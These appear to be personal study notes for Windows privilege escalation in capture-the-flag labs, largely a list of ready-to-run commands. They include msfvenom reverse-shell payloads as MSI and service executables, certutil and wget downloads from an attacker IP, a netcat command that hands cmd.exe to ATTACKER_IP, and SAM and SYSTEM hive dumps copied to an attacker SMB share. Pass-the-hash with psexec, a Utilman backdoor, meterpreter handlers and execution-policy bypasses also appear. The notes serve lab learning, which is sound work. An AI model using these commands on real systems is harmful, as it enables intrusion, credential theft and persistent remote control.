 
other guides to check out:
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://fuzzysecurity.com/tutorials/16.html
More links: https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources

can use iron corp to test win stuff

if webshell
	get info on current dir `cd`
	go to and list contents of a dir `cd C:\Windows\Microsoft.NET\Framework\ && dir`

First checks
	List environment
		cmd: `set`
		ps: `Get-ChildItem env: | Format-Table -Wrap`
	Information
		cmd: `ver`
		cmd: `systeminfo`
		ps: Get-SystemInfo
		cmd: `tasklist`
		ps: `Get-LocalUser`
	Networking
		cmd: `ipconfig /all`
		ps: `Get-NetIPConfiguration`
		ps: `Get-NetIPAddress`
		cmd: `netstat`
		ps: `Get-NetTCPConnection`
	whatever

Remember
`dir /a` Displays hidden and system files as well.
`dir /s` Displays files in the current directory and all subdirectories.

Check for credentials left from unattended installation:
	`C:\Unattend.xml`
	`C:\Windows\Panther\Unattend.xml`
	`C:\Windows\Panther\Unattend\Unattend.xml`
	`C:\Windows\system32\sysprep.inf`
	`C:\Windows\system32\sysprep\sysprep.xml`
	File format: [[unattended installation credential files]]

Powershell history
	cmd: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
	ps: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Other interesting files
	`\windows\win.ini`
	sam

Saved credentials
	cmd/ps: `cmdkey /list` no passwords, but can be used with `runas /savecred /user:admin cmd.exe`

Credential files
	Firefox
		https://book.hacktricks.wiki/en/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts.html?highlight=firefox#firefox
		`%userprofile%\AppData\Roaming\Mozilla\Firefox\Profiles\`
	Chrome...

Configuration files
	find strings in logfiles
		cmd/ps: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
	IIS
		`C:\inetpub\wwwroot\web.config`
		`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	Putty
		cmd/ps: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s` proxy creds?
	Add more - software that store creds have methods to retrieve them - browsers, email-, FTP-, SSH clients, VNC software ...

Scheduled tasks
	`schtasks` list all tasks
	`schtasks /query /tn [taskname] /fo list /v` get more info on task
	`schtasks /run /tn [taskname]` start task (if perms)

Permissions and ownership
	`icacls .` [[icacls]]

Getting text into text files at ps/cmd-prompt
	cmd: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

MSI installation perms
	These reg keys needs to be set to exploit AlwaysInstallElevated:
		`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
		`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	Generate msi:
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`
	Run it:
		`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

Services
	[[services, control]]
	Get info
		ps: `Get-Service` list services
		`sc qc [service name]` get info on specific service
	Service info location in registry
		`HKLM\SYSTEM\CurrentControlSet\Services\`
	Get perms
		ps, cmd: `icacls [service executable]` executable = BINARY_PATH_NAME in sc, ImagePath in registry
		can be found by winpeas
		set perms
			ps, cmd: `icacls "C:\PROGRA~2\SYSTEM~1\WService.exe" /grant Everyone:F`
	Exploiting Modify permissions on the service exe - Generate service executable, upload, set perms
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `Stop-Service -Name WindowsScheduler -Force`
		cmd: `net stop WindowsScheduler`
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Start-Service -Name "SERVICE-NAME"`
		cmd: `net start "SERVICE-NAME"`
	Exploiting Unquoted Service Paths
		Execution order of unquoted path: `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
			1. `C:\MyPrograms\Disk.exe`
			2. `C:\MyPrograms\Disk Sorter.exe`
			3. `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\MyPrograms\Disk.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\MyPrograms\Disk.exe"`
		ps, cmd: `icacls C:\MyPrograms\Disk.exe /grant Everyone:F`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name "SERVICE-NAME" -Force`
		cmd: `net stop "SERVICE-NAME" && net start "SERVICE-NAME"`
	Exploiting Insecure Service Permissions
		ps, cmd: `sc.exe sdshow thmservice` Check service permissions [[permissions SDDL]]
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\Users\thm-unpriv\rev-svc3.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\Users\thm-unpriv\rev-svc3.exe"`
		ps, cmd: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
		To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
		ps:  `sc.exe config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		cmd: `sc config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name THMService -Force`
		cmd: `net stop "SERVICE-NAME" && net start THMService`

Check your current integrity level with
	`whoami /groups`
	more info https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels

Privileges
	`whoami /priv` shows only current ones, not the admin mode ones (like being in the backup group ones)
	`whoami /all` to see groups too as we probably have to open cmd as admin to get all privileges
	[Complete list of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
	Find ways to exploit: [here](https://github.com/gtworek/Priv2Admin)
	If `SeBackupPriviledge` we can read any file
		`reg save hklm\system C:\Users\THMBackup\system.hive`
		`reg save hklm\sam C:\Users\THMBackup\sam.hive`
		atk: `sudo impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 myshare ../dirname`
		`copy sam.hive \\10.18.21.236\myshare`
		`copy system.hive \\10.18.21.236\myshare`
		atk: `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`
		atk: `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.62.147`
	if `SeTakeOwnershipPrivilege` we can take ownership of any object on the system, including files and registry keys
		`takeown /f C:\Windows\System32\Utilman.exe`
		`icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
		`copy cmd.exe utilman.exe`
		Lock the console and press `Win+U`
	if `SeImpersonate` or `SeAssignPrimaryToken`
		Account with these privs: `LOCAL SERVICE`, `NETWORK SERVICE ACCOUNTS`, `iis apppool\defaultapppool`, others?
		Exploit this by:
			1. spawn a process with ^ that users can connect and authenticate to
			2. force privileged users to connect and authenticate
	https://www.exploit-db.com/papers/42556
	SeTcbPrivilege
	SeRestorePrivilege
	SeCreateTokenPrivilege
	SeLoadDriverPrivilege
	SeDebugPrivilege
	play with these on thm alfred


Installed/unpatched software
	`wmic product get name,version,vendor` enum programs - also check desktop shortcuts, start menu, available services...
	look for exploits for the apps
	Druva inSync 6.6.3 - example https://www.exploit-db.com/exploits/49211

HotFixes
	`wmic qfe get Caption,Description,HotFixID,InstalledOn`

List drive letters
	`(wmic logicaldisk get caption 2>nul | more) || (fsutil fsinfo drives 2>nul)`

Metasploit
	go from nc shell to msf
		make msfvenom payload
			`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.21.236 LPORT=444 -f exe -o revsh-meterpr-444.exe`
		from the box - copy to box
			`certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`
		start metasploit listener on attacker machine
			`msfconsole -q`
				`use exploit/multi/handler`
				`set payload windows/meterpreter/reverse_tcp`
				`set lhost 10.18.21.236`
				`set lport 444`
				`options` check that it's all correct
				`run` will start listening
		from the box - start revsh
			`C:\windows\temp\revsh-meterpr-444.exe`
	if connected
		`multi/recon/local_exploit_suggester`

Tools
	WinPEAS
		start kali python http server `python3 -m http.server 8000`
		 https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS exe, bat & ps1 versions
		cmd: `certutil -urlcache -split -f http://10.21.31.111:8000/enum/winPEASany.exe C:\windows\temp\winpeas.exe`
		ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
		`winpeas > log.txt`
	PrivescCheck
		https://github.com/itm4n/PrivescCheck
		Bypass execution policy restrictions before running:
			`Set-ExecutionPolicy Bypass -Scope process -Force`
			`. .\PrivescCheck.ps1`
			`Invoke-PrivescCheck`
		Basic check
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
		Extended checks + human-readable reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"`
		All checks + all reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"`
	WES-NG
		https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
		runs on attacker box
		install, run "wes.py --update" to upd database
		run `systeminfo > info.txt` on windows box
		run `wes.py info.txt` on attacker box

